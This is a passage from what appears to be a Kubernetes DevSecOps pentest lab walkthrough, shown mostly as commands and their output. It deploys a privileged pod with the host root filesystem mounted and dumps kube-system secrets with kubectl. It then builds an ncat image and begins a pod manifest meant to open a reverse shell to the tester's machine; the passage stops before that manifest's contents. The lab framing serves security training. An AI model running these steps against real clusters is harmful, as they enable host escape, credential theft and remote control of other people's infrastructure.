 ```
    hostPath:
      path: /

### Note: imagePullSecrets
$ kubectl apply -f ./privpod.yml


$ kubectl get po
NAME      READY   STATUS    RESTARTS   AGE
privpod   1/1     Running   0          18s
$ kubectl exec -it privpod -- bash
bash-5.1# ps -ef
PID   USER     TIME  COMMAND
    1 root      0:00 sshd: /usr/sbin/sshd -D -p 3456 -e [listener] 0 of 10-100 startups
   21 root      0:00 bash
   27 root      0:00 ps -ef
bash-5.1# ls /
bin            dev            etc            lib            media          node           proc           run            scripts        sys            usr
charts         entrypoint.sh  home           manifests      mnt            opt            root           sbin           srv            tmp            var
bash-5.1# ls /proc
1                  bus                devices            fb                 irq                kpagecgroup        meminfo            pagetypeinfo       self               sysrq-trigger      version
49                 cgroups            diskstats          filesystems        kallsyms           kpagecount         misc               partitions         slabinfo           sysvipc            version_signature
60                 cmdline            dma                fs                 kcore              kpageflags         modules            pressure           softirqs           thread-self        vmallocinfo
acpi               consoles           driver             interrupts         key-users          loadavg            mounts             sched_debug        stat               timer_list         vmstat
bootconfig         cpuinfo            dynamic_debug      iomem              keys               locks              mtrr               schedstat          swaps              tty                zoneinfo
buddyinfo          crypto             execdomains        ioports            kmsg               mdstat             net                scsi               sys                uptime
bash-5.1# 

OR we can use :

$ kubectl run -i -t devsecops --rm --image=10.0.200.8:8082/alpine-containertools/alpine-containertools --image-pull-policy="IfNotPresent" --overrides='{ "spec": { "template": { "spec": { "imagePullSecrets": [{"name": "regcred"}] } } } }' /bin/bash
If you don't see a command prompt, try pressing enter.
bash-5.1# kubectl -n kube-system get secrets -o yaml


### Example reverse shell pod

### create docker repo in jfrog via jfrog UI (ncat)
$ cd DevSecOps-K8S/ncat

$ docker build -t 10.0.200.8:8082/ncat/ncat .
$ docker push  10.0.200.8:8082/ncat/ncat

Target Cluster

So we just need a Pod manifest that will open a reverse shell on your pentester machine when created. The example below will create that kind of pod and additionally will mount the hosts root filesystem into /host, although this will fail if a restrictive PodSecurityPolicy is in place.

$ cd K8S/k8s-playground/devsecops-playgrond/alpine-containertools/manifests
$ cat ncat-reverse-shell-pod-static.yml 
```